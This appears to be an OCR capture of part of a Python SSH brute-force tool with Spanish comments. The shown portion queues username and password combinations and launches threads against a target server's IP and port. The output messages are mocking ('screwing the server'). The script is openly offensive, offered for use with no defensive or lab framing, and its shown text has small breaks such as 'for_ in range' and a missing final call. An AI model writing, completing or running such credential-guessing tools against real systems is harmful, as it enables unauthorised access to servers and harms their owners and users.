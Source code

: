 # Main
def main(ip, port, threads, user_list, pass_list):
    global found
    print(f"[*] Jodiendo servidor: {ip}:{port} con {threads} hilos")
    
    # Escanear versión SSH
    banner = scan_ssh_version(ip, port)
    if not banner:
        print("[!] No se pudo obtener la versión SSH, pero seguimos jodiendo")
    
    # Cargar usuarios
    users = default_users if not user_list else open(user_list,"r").read().splitlines()
    
    # Cargar o generar contraseñas
    passwords = generate_dynamic_payloads() if not pass_list else open(pass_list,"r").read().splitlines()
    
    # Llenar la cola
    for user in users:
        for pwd in passwords:
            q.put((user, pwd))
    
    # Lanzar hilos
    thread_list = []
    for_ in range(threads):
        t = threading.Thread(target=worker, args=(ip, port))
        t.start()
        thread_list.append(t)
    
    # Esperar a que terminen
    for t in thread_list:
        t.join()
    
    if not found:
        print("[!] No se encontraron credenciales, prueba más payloads o jode otra cosa")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Fuerza bruta SSH avanzada")
    parser.add_argument("ip", help="IP del servidor")
    parser.add_argument("--port", type=int, default=22, help="Puerto SSH")
    parser.add_argument("--threads", type=int, default=10, help="Número de hilos")
    parser.add_argument("--users", help="Archivo con lista de usuarios")
    parser.add_argument("--passwords", help="Archivo con lista de contraseñas")
    args = parser.parse_args()
    